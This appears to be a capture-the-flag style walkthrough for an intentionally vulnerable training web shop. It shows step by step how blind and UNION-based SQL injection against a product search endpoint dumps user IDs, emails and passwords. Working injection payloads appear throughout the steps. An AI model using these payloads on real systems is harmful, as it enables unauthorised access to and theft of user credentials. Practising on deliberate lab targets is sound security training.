









## Retrieve a list of all user credentials via SQL Injection

1. Open the search page and reload the page with F5 while observing the Network tab in your browser's DevTools (F12).

2. Conduct a search and then look at the Network Tab of DevTools, paying specific attention to the search **GET** request.

3. You'll notice that `/rest/products/search?q=` is called. This is probably part of a legacy search that still remains within the code. Let's test this functionality, though, by updating our URL with the following `<yoururl>.herokuapp.com/rest/products/search?q=orange`

4. You should see someting similar, telling us that this database can potentially be leveraged to execute commands that it shouldn't. Let's test this by updating the end of our URL to `search?q=';`

5. We're now dabbling in what is called **blind SQL injection** where we try various commands, and hope for a bit of luck, to get the database to try to dump what we want it. Entire books have been written on this, so we're not going to dive into the details. In the interest of time, let's search for this `'))--`

6. We see now that the entire list of products has been dumped. Now comes the fun part, crafting a **UNION SELECT** statement that will pull data from the user's table in the database. 

7. What we're going to do is inject our UNION statement between the `'))` and the `--`. We'll start with this search:  `')) UNION SELECT * FROM x--` 

8. We see that t fails with a SQLITE_ERROR: no such table: x. This is because there isn't a table named **x** but we know our query worked. 

 9. However, we can easily guess the table name so let's search for `')) UNION SELECT * FROM Users--`
 

 10. We see that it fails with a promising SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns which least confirms the table name.

 11. The next step in a UNION SELECT-attack is typically to find the right number of returned columns. As the Search Results table in the UI has 3 columns displaying data, it will probably at least be three. Keep adding columns until no more SQLITE_ERROR occurs (or at least it becomes a different one):
  
- `')) UNION SELECT '1' FROM Users--` fails with number of result columns error

- `')) UNION SELECT '1', '2' FROM Users--` fails with number of result columns error

 - `')) UNION SELECT '1', '2', '3' FROM Users--` fails with number of result columns error

 - (...)

 - `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM Users--` still fails with number of result columns error

 - `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` finally gives you a response back with an extra element

 12. Next get rid of the unwanted product results changing the query into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` leaving only the "**UNION**ed" element in the result set

 

 13. The last step is to replace the fixed values with correct column names. You could guess those or derive them from the RESTful API results or remember them from previously seen SQL errors while attacking the Login form.

 14. Searching for `qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` solves the challenge giving you a the list of all user data in convenient JSON format.

  